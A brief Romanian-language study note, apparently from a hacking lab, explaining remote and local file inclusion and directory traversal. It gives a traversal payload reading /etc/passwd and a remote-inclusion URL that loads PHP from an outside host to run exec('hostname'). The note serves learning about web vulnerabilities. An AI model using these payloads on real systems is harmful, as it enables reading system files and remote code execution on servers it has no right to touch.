 RFI (Remote File Include) → 
LFI (Local File Include) → de obicei vulnerabilitatea data este produsa din lipsa experienti a dezvoltatorului
Directory traversal → permite sa citim fisierile sistemului operational din interfata de `web`. Daca avem ceva de genu pe resursul nostru `get.php?file=` atunci putem putem sa incercam sa transmite ceva de genu `get.php?file=../../../etc/passwd` si sa vedem daca ne va returna informatia din `/etc/passwd`.
RFI este cu mult mai periculor deoarece uneori permite executarea comenzilor la distanta ceva de genu [[RCE]] eaca un exemplu simplu:
```bash
http://10.10.151.89/playground.php?file=http://10.8.228.3:8000/hostname.txt
```
Comanda noastra este in `hostname.txt` si are continutul de:
```php
<?php
print exec("hostname");
?>
```
Care va returna denumirea a PC pe care comanda este executata.
